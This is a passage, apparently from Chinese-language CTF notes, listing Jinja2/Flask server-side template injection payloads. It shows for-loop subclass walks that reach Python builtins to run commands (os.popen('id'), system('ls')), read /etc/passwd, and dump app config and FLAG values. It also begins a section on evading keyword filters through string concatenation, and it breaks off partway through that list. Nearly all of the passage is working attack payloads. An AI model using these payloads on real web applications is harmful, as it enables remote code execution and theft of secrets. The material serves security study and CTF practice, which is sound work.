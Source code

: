 ### for语句确定索引位置

前面提到过一点，我们需要的子类在python不同版本中位置并不固定（主要是py3 py2的基本固定死了），针对这个问题可以用Jinja支持的for语句来解决，submodule的名字可以用上面的脚本跑

```html
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='submodule' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

```html
{% for c in ().__class__.__base__.__subclasses__() %}{% if c.__name__=='submodule' %}{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
```

### 特殊的一些对象

```html
{{config}}
{{config.items()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

```html
{{get_flashed_messages.__globals__['current_app'].config}}
```

```html
{{app.__init__.__globals__.sys.modules.app.app.__dict__}}
```

```html
{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}
{{url_for.__globals__['current_app'].config.FLAG}}
```

```html
{{request.__init__.__globals__['__builtins__'].open('/etc/passwd').read()}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

## 各种各样的bypass

一般都不会只过滤一种的，综合应用

### 针对关键字的过滤

以class为例，做一个字符串的拼接

- ```python
  'cl'~'ass'	# 拼接
  "cl"+"ass"
  ```

- ```python
  'cla'.join('ss')	# 拼接
  ```
